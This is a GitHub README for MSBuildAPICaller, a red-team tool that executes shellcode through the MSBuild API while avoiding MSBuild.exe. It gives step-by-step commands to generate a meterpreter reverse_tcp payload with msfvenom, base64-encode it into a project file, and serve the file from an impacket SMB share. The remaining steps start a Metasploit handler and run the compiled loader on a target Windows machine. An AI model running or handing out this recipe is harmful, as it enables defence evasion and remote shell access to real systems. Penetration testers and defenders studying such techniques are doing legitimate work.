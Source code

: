 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 0: git clone this repo on your Kali Linux machine

```
git clone https://github.com/xax007/MSBuildAPICaller
cd MSBuildAPICaller
```

## Step 1: Build IEShim.cs on your Windows Machine CMD **not powershell**
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs
```

## Step 2: Modify `msbuildapicaller.cs` file 

Modify `projectPath` variable on line 60 of `msbuildapicaller.cs` to your needs

Example:   
`string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';`

## Step 3: Generate shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000
``` 
convert the shellcode from binary to base64

```
base64 -w 0 -i /root/payload64.bin > payload64.txt
```  

Replace `<Base64 Encoded x64 Shellcode>`  with your base64 encoded x64 shellcode in `msbuildapicaller.csproj` file


## Step 4: Modify `msbuildapicaller.csproj` fille  

Replace `AssemblyFile` variable in msbuildapicaller.csproj file with the location of your compiled dll from step 1

## Step 5: Build `msbuildapicaller.cs` file

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs
```

## Step 6: Start a SMB Server via impacket on Kali Linux

```
impacket-smbserver share /msbuild -smb2support
```

## Step 7: Start a Metasploit exploit handler
```
$ msfdb run
msf5> handler -p windows/x64/meterpreter/reverse_tcp -P 4444 -H 1.2.3.4
```
## Step 8: Execute 

execute `msbuildapicaller.exe` file complied from `step 5` on target windows machine


reference: [MSBUILD WITHOUT MSBUILD](https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/)
